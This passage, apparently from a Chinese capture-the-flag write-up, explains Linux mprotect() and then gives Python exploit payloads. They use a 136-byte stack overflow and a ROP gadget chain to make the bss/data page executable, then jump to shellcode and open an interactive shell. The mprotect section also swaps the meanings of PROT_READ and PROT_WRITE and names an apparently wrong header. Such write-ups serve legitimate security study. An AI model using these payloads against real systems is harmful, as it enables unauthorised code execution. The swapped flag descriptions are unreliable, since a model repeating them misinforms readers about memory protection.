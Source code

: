 > 程序段的映射是由mmap实现的，data段也不例外。
>

这里补充一下有关mprotect的知识，其函数原型如下：

```c
#include <unistd.h>
#include <sys/mmap.h>
int mprotect(const void *start, size_t len, int prot);
```

作用：mprotect()函数把自start开始的、长度为len的内存区的保护属性修改为prot指定的值。

> prot可以取以下几个值，并且可以用“|”将几个属性合起来使用：
>
> 1）PROT_READ：表示内存段内的内容可写；2）PROT_WRITE：表示内存段内的内容可读；
>
> 3）PROT_EXEC：表示内存段中的内容可执行；4）PROT_NONE：表示内存段中的内容无法访问；
>

需要指出的是，**<font style="color:#F5222D;">区间开始的地址start必须是一个内存页的起始地址，并且区间长度len必须是页大小的整数倍：</font>**

> [https://man7.org/linux/man-pages/man2/mprotect.2.html](https://man7.org/linux/man-pages/man2/mprotect.2.html)
>

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1623402019544-f123475f-23a5-400d-9e1a-f89e003e6741.png)

返回值：如果执行成功，则返回0；如果执行失败，则返回-1，并且设置errno变量。

错误的原因主要有以下几个：

1）EACCES：该内存不能设置为相应权限。这是可能发生的，比如，如果你 mmap(2) 映射一个文件为只读的，接着使用 mprotect() 标志为 PROT_WRITE。

2）EINVAL：start 不是一个有效的指针，指向的不是某个内存页的开头。

3）ENOMEM：内核内部的结构体无法分配。

4）ENOMEM：进程的地址空间在区间 [start, start+len] 范围内是无效，或者有一个或多个内存页没有映射。 

**<font style="color:#F5222D;">如果调用进程内存访问行为侵犯了这些设置的保护属性，内核会为该进程产生SIGSEGV（Segmentation fault，段错误）信号，并且终止该进程。</font>**

回到这道题，显而易见mprotect的第一个参数为data段的首地址即bss_addr-0xa88，第二个参数len包含整个data段就行：0x1000，第三个参数设置为0x7即可。

```python
payload4='a'*136+p64(pop_rbx_rbp_r12_r13_r14_r15_ret)+p64(0)+p64(1)+p64(target_got)+p64(0x7)+p64(0x1000)+p64(bss_addr-0xa88)+p64(mov_gadget)+p64(0xdeadbeef)*7+p64(main_addr)
```

> 另：因为内存是要求是以基页（4KB==0x1000Byte）为单位访问，所以mprotect的第一、第二个参数必须是0x1000的倍数。
>

获取Linux 内存页（基页）大小的命令为getconf PAGE_SIZE：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1623402456899-91c70e43-1dd7-404a-b1ef-670bf98a609d.png)

最后栈溢出执行shellcode拿到shell：

```python
p.recvuntil('Input:\n')
payload5='a'*136+p64(bss_addr)
#gdb.attach(p)
p.sendline(payload5)
p.sendline('ls')
p.interactive()
```
